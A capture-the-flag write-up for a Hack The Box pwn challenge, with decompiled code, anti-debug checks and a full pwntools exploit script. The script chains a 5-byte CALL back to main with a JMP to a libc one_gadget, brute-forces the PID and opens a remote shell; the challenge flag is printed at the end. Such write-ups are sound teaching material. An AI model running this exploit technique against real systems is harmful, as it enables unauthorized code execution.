


## Challenge Description

```
Rogat lost a blood-price dispute his clan should have won, and the rival warband that beat them didn't settle it themselves. They hired Rovan Kest's Iron Vultures to hold him and asked a ransom Sythra Crow-Eater's order was never built to pay, because paying it would mean her hostages have a price again, the exact thing she spent years teaching the southern clans to stop believing. She can't storm the camp without breaking her own rules in front of every clan watching to see if they still hold. She can't leave him either. So she does what she's never done before and asks someone outside her clans to make the problem disappear quietly. Rin gets inside the Iron Vultures' camp before Rogat gets sold to whoever bids highest for his silence. He isn't chained the way a giant should be. The rig holding him is old work, something built by a border people who don't have a name anymore, the kind of craft Garran Voss grew up around on the winter keep before Crownspire ever took him in. He taught her the shape of it once, half as history, half as a joke about a dead trade nobody would ever need again. She needs every piece of that joke to be true. Get Rogat out clean, and Sythra owes her people something no coin ever bought from her before: trust.
```

---

## Initial Recon

```
$ pwn checksec words_from_the_past
[*] '/root/CTF/HTB/CA2026/pwn/Words_from_the_past/challenge/words_from_the_past'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'$ORIGIN/glibc'
```

All major protections are enabled.

---

## Analysis

### main

```c
void main(void)
{
  __pid_t child_pid;
  uint current_pid;
  long libc_base;
  code *shellcode;
  ssize_t bytes_read;
  undefined1 expected_opcode;
  int mmap_flags;
  void *mmap_addr;

  puts(&DAT_00102110);
  puts("[Garran Voss] Rin.. You know what to do... Precise moves, keep it fast and lethal..\n");
  fflush(stdout);
  if (DAT_0010502c == 0) {
    DAT_0010502c = 1;
    child_pid = fork();
    if (child_pid != 0) {
      waitpid(child_pid,(int *)0x0,0);
      _exit(0);
    }
  }
  prctl(4,0);
  mmap_flags = 0x22;
  if (DAT_00105030 == 0) {
    mmap_addr = (void *)0x1116d5;
    DAT_00105030 = 1;
    expected_opcode = 0xe8;
  }
  else {
    libc_base = get_libc_base();
    current_pid = getpid();
    mmap_addr = (void *)(libc_base + ((ulong)(current_pid & 7) + 0x1000) * -0x1000);
    mmap_flags = 0x32;
    DAT_00105030 = 2;
    expected_opcode = 0xe9;
  }
  shellcode = mmap(mmap_addr,0x1000,7,mmap_flags,-1,0);
  if (shellcode == (code *)0xffffffffffffffff) {
    puts("mmap failed!");
    exit(1);
  }
  bytes_read = read(0,shellcode,5);
  if ((int)bytes_read < 5) {
    exit(1);
  }
  anti_debug_checks();
  check_null_bytes(shellcode);
  check_breakpoints(shellcode);
  check_first_instruction(shellcode,expected_opcode);
  timing_check();
  puts("[Garran Voss] Rin.. You know what to do... Precise moves, keep it fast and lethal..\n");
  fflush(stdout);
  (*shellcode)();
  return;
}
```

Forks the process, configures where shellcode will be mapped in memory (fixed address or libc-relative depending on state), allocates an RWX page via `mmap`, reads 5 bytes from stdin as shellcode, runs all anti-debug checks, and then executes the shellcode.

### get_libc_base

```c
ulong get_libc_base(void)
{
  FILE *maps_file;
  char *str_ptr;
  long in_FS_OFFSET;
  ulong libc_base;
  char line_buffer[520];
  long stack_canary;

  stack_canary = *(long *)(in_FS_OFFSET + 0x28);
  maps_file = fopen("/proc/self/maps","r");
  if (maps_file == (FILE *)0x0) {
    puts("Failed to open maps!");
    exit(1);
  }
  libc_base = 0;
  do {
    do {
      str_ptr = fgets(line_buffer,0x200,maps_file);
      if (str_ptr == (char *)0x0) goto LAB_00101686;
      str_ptr = strstr(line_buffer,"libc.so.6");
    } while (str_ptr == (char *)0x0);
    str_ptr = strstr(line_buffer,"r--p");
  } while (str_ptr == (char *)0x0);
  libc_base = strtoul(line_buffer,(char **)0x0,0x10);
LAB_00101686:
  fclose(maps_file);
  if (libc_base == 0) {
    puts("libc base not found!");
    exit(1);
  }
  if (stack_canary != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return libc_base;
}
```

Opens `/proc/self/maps`, finds the `libc.so.6` line with `r--p` permissions, and extracts the base address.

### anti_debug_checks

```c
void anti_debug_checks(void)
{
  int cmp_result;
  char *str_ptr;
  FILE *status_file;
  long start_tsc;
  long end_tsc;
  long in_FS_OFFSET;
  int i;
  char line_buffer[10];
  char tracer_pid_value[254];
  long stack_canary;

  stack_canary = *(long *)(in_FS_OFFSET + 0x28);
  str_ptr = getenv("LD_PRELOAD");
  if ((str_ptr != (char *)0x0) || (str_ptr = getenv("LD_AUDIT"), str_ptr != (char *)0x0)) {
    puts("Preload detected!");
    exit(1);
  }
  status_file = fopen("/proc/self/status","r");
  if (status_file != (FILE *)0x0) {
    do {
      str_ptr = fgets(line_buffer,0x100,status_file);
      if (str_ptr == (char *)0x0) goto LAB_001013a0;
      cmp_result = strncmp(line_buffer,"TracerPid:",10);
    } while (cmp_result != 0);
    cmp_result = atoi(tracer_pid_value);
    if (cmp_result != 0) {
      puts("Debugger detected!");
      exit(1);
    }
LAB_001013a0:
    fclose(status_file);
  }
  start_tsc = read_timestamp();
  for (i = 0; i < 50000; i = i + 1) {
  }
  end_tsc = read_timestamp();
  if ((ulong)(end_tsc - start_tsc) < 0x1dcd6501) {
    if (stack_canary == *(long *)(in_FS_OFFSET + 0x28)) {
      return;
    }
    __stack_chk_fail();
  }
  puts("Timing anomaly detected!");
  exit(1);
}
```

Three checks combined: verifies that `LD_PRELOAD` / `LD_AUDIT` are not set (library injection), reads `/proc/self/status` to check if `TracerPid` is non-zero (debugger attached), and measures a loop's execution time via `rdtsc` to detect single-stepping.

### Validation Functions

```c
void check_null_bytes(long shellcode)
{
  int i;
  i = 0;
  while( true ) {
    if (4 < i) { return; }
    if ((*(char *)(shellcode + i) == '\0') || (*(char *)(shellcode + i) == '\n')) break;
    i = i + 1;
  }
  puts("Encoding violation detected!");
  exit(1);
}
```

Iterates the 5 shellcode bytes and aborts if `0x00` or `0x0A` is found.

```c
void check_breakpoints(long shellcode)
{
  int i;
  i = 0;
  while( true ) {
    if (4 < i) { return; }
    if (*(char *)(shellcode + i) == -0x34) break;
    i = i + 1;
  }
  puts("Breakpoint detected!");
  exit(1);
}
```

Aborts if `0xCC` (`INT3`, software breakpoint) is found in the shellcode.

```c
void check_first_instruction(char *shellcode, char expected_opcode)
{
  if (expected_opcode != *shellcode) {
    puts("Invalid instruction!");
    exit(1);
  }
  return;
}
```

Verifies that the first byte matches the expected opcode.

---

## Exploitation

### First Iteration - CALL back to main

```c
if (DAT_00105030 == 0) {
    mmap_addr = (void *)0x1116d5;
    DAT_00105030 = 1;
    expected_opcode = 0xe8;
}
```

When `DAT_00105030 == 0`, it sets the expected opcode to `0xe8` (relative CALL). An RWX page is created via `mmap`, 5 bytes are read and executed after validation. Note the flags are `0x22` (`MAP_PRIVATE | MAP_ANONYMOUS`) with no `MAP_FIXED`, so `mmap_addr` is only a hint. The kernel page-aligns it and the shellcode ends up at a fixed page near the binary, which is why the CALL offset below is taken from GDB rather than computed.

If we could make `main` loop, a second iteration would be far more interesting. In the second iteration, `DAT_00105030 != 0`, so the else branch runs:

```c
else {
    libc_base = get_libc_base();
    current_pid = getpid();
    mmap_addr = (void *)(libc_base + ((ulong)(current_pid & 7) + 0x1000) * -0x1000);
    mmap_flags = 0x32;
    DAT_00105030 = 2;
    expected_opcode = 0xe9;
}
```

This time the mmap is placed close to libc (distance depends on `PID & 7`, a value between 0 and 7), and the expected opcode changes to `0xe9` (relative JMP). With a JMP and an mmap near libc, we can jump directly to a one_gadget. Here the flags are `0x32` (`MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED`). With `MAP_FIXED`, the page lands exactly at `libc_base - ((PID & 7) + 0x1000) * 0x1000`, so unlike the first iteration this address is fully deterministic, which is what lets us compute the JMP offset directly instead of reading it off GDB.

The key detail is that `DAT_00105030` was already set to 1 during the first iteration, so re-entering `main` skips the `if` branch and runs the `else` instead. The fork guard (`DAT_0010502c`) is likewise already set, so no second fork happens. That means a single CALL back into `main` is enough to reach the libc-relative mmap path.

To reach the second iteration, the first CALL must redirect execution back to `main`. Since `0xe8` is a `CALL rel32` (relative to RIP), we need to calculate the offset from the mmap region back to main. 
The anti-debug checks only fire once execution reaches them, so patching wasn't needed: run the binary in pwndbg, Ctrl+C during read(), and vmmap shows the RWX page (0x555555565000 rwxp) right away.

```
pwndbg> p/x 0x555555565000 - 0x5555555556d6
$2 = 0xf92a
```

Since the mmap is after `main`, the offset must be negative. We also account for the fact that RIP points to `mmap + 5` after reading the 5-byte instruction:

```
0xf92a + 5 = 0xf92f
```

The two's complement in 32 bits gives us `0xffff06d1`. So `CALL 0xffff06d1` is equivalent to `RIP - 0xf92f`, which lands on `main`:

```python
exec_1 = b"\xe8"  # call
payload = exec_1 + p32(0xffff06d1)
io.sendafter(b"lethal..", payload)
```

This successfully returns to `main`:



### Second Iteration - JMP to one_gadget

Now in the second iteration, the one_gadget offsets are:

```
$ one_gadget glibc/libc.so.6
0x583ec posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rax == NULL || {"sh", rax, rip+0x17301e, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0x583f3 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, rip+0x17301e, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0xef4ce execve("/bin/sh", rbp-0x50, r12)
constraints:
  address rbp-0x48 is writable
  rbx == NULL || {"/bin/sh", rbx, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xef52b execve("/bin/sh", rbp-0x50, [rbp-0x78])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
  [[rbp-0x78]] == NULL || [rbp-0x78] == NULL || [rbp-0x78] is a valid envp
```

The one that worked was `0x583f3`.

The mmap address in the second iteration depends on the PID:

```c
mmap_addr = (void *)(libc_base + ((ulong)(current_pid & 7) + 0x1000) * -0x1000);
```

Since we have no way to know the PID beforehand, `PID & 7` yields a value between 0 and 7. The solution is brute force with only 8 possible values, we fix a guess and retry until it hits.

The offset calculation:

```python
one_gadget_offset = 0x583f3
mmap_offset = (guess_pid + 0x1000) * 0x1000
jmp_offset = one_gadget_offset + mmap_offset - 5  # -5 because RIP is at mmap + 5

payload = exec_2 + p32(jmp_offset & 0xFFFFFFFF)
```

If the PID guess is correct, the JMP lands exactly on the one_gadget.

---

## Full Exploit

```python
from pwn import *
import time

context.log_level = "critical"

while True:
    try:
        io = remote("154.57.164.69", 30403)

        # Iteration 1: CALL rel32 back to main
        exec_1 = b"\xe8"
        exec_2 = b"\xe9"

        payload = exec_1 + p32(0xffff06d1)
        io.sendafter(b"lethal..", payload)

        # Iteration 2: JMP rel32 to one_gadget
        guess_pid = 1
        one_gadget_offset = 0x583f3
        mmap_offset = (guess_pid + 0x1000) * 0x1000
        jmp_offset = one_gadget_offset + mmap_offset - 5

        payload = exec_2 + p32(jmp_offset & 0xFFFFFFFF)
        io.sendafter(b"lethal..", payload)

        io.sendline(b"id")
        test = io.recvuntil(b"uid", timeout=3)
        if b"uid" in test:
            io.interactive()
        io.close()
    except:
        io.close()
```

---

## Flag



```
HTB{f1v3_byt3s_0f_pr3c1s10n_t0 rul3_th3m_4ll_3352e4033e16dce284ba62168002d5a0}
```


If you notice any inaccuracies or mistakes in this writeup, please feel free to contact me. I’d be happy to clarify or correct any information.
